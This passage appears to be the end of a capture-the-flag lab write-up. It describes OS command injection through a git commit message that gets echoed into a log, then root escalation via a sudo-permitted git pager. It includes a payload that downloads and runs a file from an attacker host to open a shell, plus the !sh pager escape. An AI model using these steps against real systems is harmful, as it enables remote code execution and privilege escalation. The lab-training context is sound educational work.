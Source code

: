 basically commit messages are echoed into a log file, and this is trivially exploitable via os injection in the message content.

1. create a commit like `git commit -m '$(wget 10.10.174.209:4444/c -O /tmp/c && chmod 777 /tmp/c && /tmp/c)'` - the message contains our os injection payload
2. execute by pushing to the remote server: `proxychains git push`

this should get a shell as `git` on the final machine

#### root

comparatively easy compared to the rest:

1. `sudo -l` lists `(ALL) NOPASSWD: /usr/bin/git --no-pager diff *`
2. regardless of the nopager argument, `sudo /usr/bin/git --no-pager diff --help` will load in a pager.
3. typing `!sh` will then spawn a root shell.

and you're all done! possibly the windiest of the side quests, though it took a lot less time than the mammoth sq3 heap thing
